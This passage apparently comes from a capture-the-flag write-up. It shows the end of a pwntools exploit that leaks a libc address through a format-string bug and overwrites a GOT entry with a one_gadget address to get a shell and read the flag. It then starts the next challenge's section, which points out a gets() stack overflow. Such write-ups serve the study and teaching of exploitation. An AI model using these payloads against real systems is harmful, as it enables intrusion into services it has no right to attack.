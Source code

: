 ```
  payload2='stopHere:%11$s %p %p %p \x20\x40\x40'
  r.sendline(payload2)
  ret=r.recv()#empty
  if  socat:
    r.recvline()#empty
  if online:
    ret="".join( r.recv() )
  ret="".join( r.recv() )
  
  leak_strlen = u64( (ret.split("stopHere:")[1].split(" ")[0] ).ljust(8, "\x00")) 
  if online:
    leak_strlen = u64(("\x20" + (ret.split("stopHere:")[1].split(" ")[1] )).ljust(8, "\x00")) 
  log.info("leak strlen 0x%x " % leak_strlen)
 
  strlen_offset = 0x81c10
  if online :
    strlen_offset =0x8b720

  libc_base = leak_strlen - strlen_offset
  log.info("libc base 0x%x " % libc_base )
  log.info("one gadget addr 0x%x " % (libc_base + one_gadget))

  shell_one = libc_base + one_gadget
  #shell_one = leak_strlen
  strlen_got = 0x404020 #e.g. 0x7ffff7ab2c10 
                        #oneg 0x7ffff7a72320
 
  payload_i = '%{0}u%12$n%{1}u%13$hn'.format( shell_one & 0xffff, ((shell_one >> 16) & 0xffff ) - (shell_one & 0xffff) ).ljust(32," ")
  if online :
    payload_i = '%{0}u%12$n%{1}u%13$hn'.format( shell_one & 0xffff, ((shell_one >> 16) & 0xffff ) - (shell_one & 0xffff) ).ljust(32," ")
  payload_i += '\x20\x40\x40\x40\x00\x00\x00\x00\x22\x40\x40\x00\x00\x00\x00\x00'
  r.sendline(payload_i)
  #print(payload_i)
  r.sendline("cat flag.txt\x00")
  r.interactive()

  #actf{no_returns_allowed}

exploit( )
```


## Chain of Rope

We have the source and the binary, so we can inspect the source and immediately find a stack overflow
```
int main() {
  ...
 int choice;
 scanf("%d\n", &choice);
 if (choice == 1) {
	gets(name);
 } else if (choice == 2) {
  ...
```
